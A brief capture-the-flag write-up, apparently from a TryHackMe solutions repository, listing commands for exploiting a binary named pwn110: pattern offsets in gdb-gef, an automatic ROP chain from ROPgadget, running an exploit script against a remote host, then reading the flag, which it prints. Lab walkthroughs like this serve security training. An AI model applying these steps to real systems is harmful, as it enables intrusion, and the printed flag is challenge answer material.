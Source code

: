 ```commandline
./pwn110.pwn110

pwn gdb-gef ./pwn110.pwn110
pattern create 100
r
pattern offset $rsp
ROPgadget --binary ./pwn110.pwn110 --ropchain

python3 pwn110.py
python3 pwn110.py REMOTE <IP> 9009
ls -la
cat flag.txt
```
```commandline
THM{n1c3_us3_0f_g4dg37s}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
